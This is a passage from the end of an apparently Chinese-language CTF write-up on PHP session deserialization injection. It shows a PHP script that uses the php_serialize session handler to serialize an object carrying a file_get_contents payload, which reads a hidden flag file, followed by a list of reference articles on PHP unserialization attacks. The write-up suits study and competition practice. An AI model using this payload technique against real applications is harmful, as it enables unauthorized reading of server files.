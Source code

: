 因此我们只需要把payload，当中改为`print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));`即可获取flag

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class OowoO
{
    public $mdzz='print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));';
}
$obj = new OowoO();
echo serialize($obj);
?>
```



# 参考文章

https://xz.aliyun.com/t/2715

https://xz.aliyun.com/t/2613

https://threezh1.com/2019/09/09/phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf

https://blog.csdn.net/qq_43431158/article/details/99544797

https://www.cnblogs.com/or4nge/p/13439974.html

https://blog.zsxsoft.com/post/38

https://paper.seebug.org/680/

https://www.freebuf.com/articles/web/182231.html

https://www.freebuf.com/vuls/202819.html